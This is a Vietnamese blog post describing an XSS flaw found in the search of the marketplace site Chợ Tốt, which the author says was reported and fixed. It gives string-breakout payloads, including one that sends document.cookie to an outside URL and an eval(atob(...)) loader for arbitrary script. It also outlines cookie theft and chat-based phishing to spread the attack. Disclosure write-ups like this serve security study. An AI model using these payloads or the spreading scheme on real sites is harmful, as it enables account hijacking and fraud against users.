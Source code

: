 ```yaml
---
layout: post
title: Tôi đã hack Chợ Tốt như thế nào
thumbnail: hack-cho-tot.jpg
category: Chuyện lập trình
tags:
 - hoc-hack-co-ban
 - hacking-co-ban
 - cach-tro-thanh-hacker-mu-den
 - day-lam-hacker-tu-a-z
related_posts:
 - title: 
   link: http://laptrinhcuocsong.com/hoc-lam-hacker.html
 - title: 
   link: http://laptrinhcuocsong.com/tong-hop-nhung-kenh-youtube-ma-dan-cong-nghe-nen-theo-doi-phan-2.html
 - title: 
   link: http://laptrinhcuocsong.com/that-vong-su-tro-lai-cua-hiep-hoi-hacker-viet-nam-hva.html
 - title: 
   link: http://laptrinhcuocsong.com/huong-dan-giai-whitehat-wargame-web-security-bai-1-den-bai-4.html
---
```


Hôm nay thử dạo một vòng Chợ Tốt kiếm mấy món hàng cũ, thì phát hiện lỗi XSS, đây là lỗi không mới, cách thức tấn công cũng đơn giản, nhưng nhiều khi cần rất nhiều sáng tạo trong quá trình khai thác.

Thử tìm kiếm với từ khóa "iphone 7" thì thấy như thế này:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/mh0excozyx_c1.png)

Ai chà, url đẹp phết, mình thích url này rồi đấy, search key đã được bỏ dấu và thêm dấu gạch ngang cho hợp chuẩn. Thử thêm một ít html vào thì thế này (ảnh nhỏ các bạn mở ở tab mới để xem nhé)

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/xq1tymmaf1_c2.png)

Rất nhiều nơi, search key đã được entities, tuy nhiên vì lý do nào đó, search key trong đoạn javascript này đã không được xử lý.
Vấn đề là, từ khóa nó đang nằm trong string, nên alert không xảy ra hiện tượng gì. 

Cuối cùng mình sửa search key như sau:

```javascript
iphone 7" }; alert("something went wrong"); var a = { "a":"
```

Thì nhận được alert:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/sk8bcvtkaw_c3.png)

Bạn thấy không? Mình muốn nói đến cái search key trên, từ một property của object, nó đã tách thành 2 object, và alert nằm giữa một cách đẹp đẽ và tuyệt vời.

OK, giờ thử redrect đến 1 trang ngoài cùng với cookie của người dùng xem sao, mình thử code này:

```javascript
iphone 7" }; window.location="http://google.com/" + document.cookie; var a = { "a":"
```

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/o7l9sidows_c4.png)

Cái lề gì thốn, coder đã cẩn thận bỏ dấu gạch chéo // và phần sau của search key đi, cũng như lọc một số từ đặc biệt trong chuỗi, như vậy là không thể tương tác gì url bên ngoài được? Không, phải nghĩ cách khác. Cuối cùng thì mình đã tìm ra cách hoàn hảo nhất là đây:

```javascript
iphone 7" }; eval(atob("xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx")); var a = { "a":"
```

Với xxxxx là mã hóa base64 của một đoạn code javascript bất kỳ, tức là chúng ta có thể chèn bất kỳ đoạn javascript nào vào Chợ Tốt. Ví dụ sau đây để alert cookie:

```javascript
iphone 7" }; eval(atob("YWxlcnQoIGRvY3VtZW50LmNvb2tpZSk=")); var a = { "a":"
```

Và đây là kết quả:

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/t9g7rdgqhh_9.png)

Đã đến bước này, thì các bạn đã biết mình sẽ làm gì tiếp theo rồi phải không? Mình đăng 1 bài viết mua bán với giá rất rẻ, trong đó có kèm link, lấy cookie để vào được tài khoản của những người không may click vào link.

Nhưng không dừng lại ở đó, khi đã vào được tài khoản của vài thành viên khác, mình có thể mở rộng hơn qua chính công cụ chat của Chợ Tốt bằng tokenKey đã lấy được. Viết script tự động chat với nhiều thành viên khác với nội dung bán đồ rất rẻ, và kèm link để câu.

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/j5w20u6nil_c6.png)

Tâm lý là khi được chat về sản phẩm đang bán, người dùng rất dễ click vào link, social engineering khá hiệu quả trong trường hợp này.

Hiện tại mình đã report, bên ChoTot đã xác nhận, fix lỗi xong và thông báo lại cho mình

![alt text](https://s3-ap-southeast-1.amazonaws.com/kipalog.com/6uo1x836x9_chotot.png)

